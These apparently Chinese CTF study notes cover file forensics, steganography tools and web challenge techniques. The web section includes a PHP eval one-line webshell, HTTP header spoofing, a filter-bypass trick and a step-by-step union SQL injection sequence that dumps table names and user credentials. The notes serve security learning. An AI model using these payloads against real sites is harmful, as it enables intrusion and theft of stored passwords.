



# MISC
## 一、文件操作与隐写

### 1.文件类型识别

#### file命令

格式 file 文件名（注：用Linux虚拟机，密码为kali或toor）

#### notepad++

(是图片文件的话打开是乱码，在插件中下载HEX-Editor来查看16进制，看文件头部开头)

#### 010 Editor

### 2.文件头残缺/错误

即当用file 文件名时，会显示data；

### 3.文件分离

#### Binwalk工具

注：Linux，分离后可能会直接解压

分析文件：binwalk 文件名

分离文件：binwalk -e 文件名

#### foremost

注：可能被删除

格式：foremost 文件名 -o 输出文件夹

#### dd

当自动分离出错，实现手动分离

格式：dd if=源文件 of=目标文件名 bs=n读写块内个数 count=n读写快的个数 skip= 开始分离的字节数

if = #输入

of= #输出

bs=bytes #同时设置读写块的大小（即去掉几个数）

skip=blocks #从开始跳过blocks个块再开始复制

count= #几个读写块

cat 文件名 #查看

### 4.文件合并：

Linux下: cat 合并文件 > 输出文件（注:修改路径用cd . .退出当前，再cd 相应的路径名）
​               计算md5：(先看原本MD5，后校验)md5sum 文件名

Windows下:copy /B 文件1+文件2 输出文件
​                计算md5：certutil -hashfile 文件名 md5

## 二、图片隐写术
工具：fireworks
### 1.细微颜色差别
### 2.GIF多帧隐藏
#### 1.颜色通道隐藏
#### 2.不同帧图信息隐藏
#### 3.不同帧对比隐写
### 3.Exif信息隐藏
Windows：右键图片属性，查找flag信息
Linux：exiftool 图片名
### 4.图片修复
#### 头修复

#### 尾修复
#### CRC校验修复
#### 长、宽、高修复
### 5.最低有效位LSB隐写
### 图片加密
#### Stegadetect
#### outguess
#### Jphide
#### F5

stegsolve

使用场景：两张图片信息基本相同

# Linux 

命令

# Web

### 题型：

#### 爆破：

send to 测试器，选取字段，字典——观察length长度不一样的部分可能为密码

#### 本地访问：

repeater—重发器——添加X-Forwarded-For:127.0.0.1或者全复制再send（若要求从某网站访问，则更改Refer:后的内容，Browser是更改User-Agent）

#### 一句话木马：

<?php @eval ($_POST[ 'a' ]); ?>

post['    ']内为密码；

蚁剑——右键添加数据——复制网址，密码，测试连接，添加，flag（根目录下）

#### Cookie

BP——抓，历史——点开cookie——根据提示访问

#### 双写绕过

如果源代码中将其替换为空，使得无法进行，可将字符串双写（在字符串中间再次插入字符串），使其替换后保留想要的字符串

get :?参数名=参数值

post：用post data上   加  参数名=参数值

strpos：查找字符串在你输入的什么位置，找到输出真，否假

使用data协议可以绕过验证：abc = data://text/plain;bas64 , aGVsbG8xMjM =

#### 弱类型

“===”严格

“==”不严格(会先将字符串转化成相同的，再比较)

#### SQL

##### 1.

##### 2.判断是字符型还是数字型

SQL测试输入    1' or '1234'='1234

在数字型注入中，由于变量没有加引号，所以拼接后sql语法错误，直接报错，如果提示为sql语法错误，直接判断为数字型注入

在字符型注入中，其与原本的引号前后完全闭合，且逻辑成立，所以会回显user_id为1的数据；而1' or '1234'='123这个语句，前后引号闭合但逻辑不成立，所以结果为空。

##### 3.猜解SQL查询语句中的字段数

注：字段数即SELECT 后有几个字段

输入1‘ or 1=1 order by 1 #

1‘ or 1=1 order by 2 #

1‘ or 1=1 order by 3 #  ……当查询报错时，即有（n-1）列

order by语句是对第几列句子进行排序

##### 4.确定显示字段的顺序

输入 1’ union select 1,2 #

union 联合查询—将两个查询到的表放在一起

##### 5.获得当前数据库名

输入1' union select 1,database( ) #

database函数即获取当前数据库

##### 6.获取数据库中表名，注出表名

注出表名：
1' union select 1,2,(select group_concat(table_name)from information_schema.tables where table_schema=database()) %23

补：这里#使用URL编码格式：% + 十六进制数，目的是防止被过滤，在本题目中若使用 # 或 --+是无法检测出字段数量的，所以在以后的sql注入题目中，最好使用%23。

##### 7.获取表中字段名

方法：输入1' union select 1,group_concat(column_name) from information_schema.columns where table_name='表名' #

information_schema——相当于图书馆管理员，不会的可以问他，确切的说是信息数据库

当不用group_concat时，当题目只输出一行时，而union是按union顺序一次显示，而我们查询的最少是第二个，因此可以让第一个表为空，即将其改为

1' and 1=2 union select 1,group_concat(column_name) from information_schema.colums where table_name='users' #

##### 8.获取字段信息

1' union select 1,2,(select group_concat(id,username,password) from l0ve1ysq1) %23
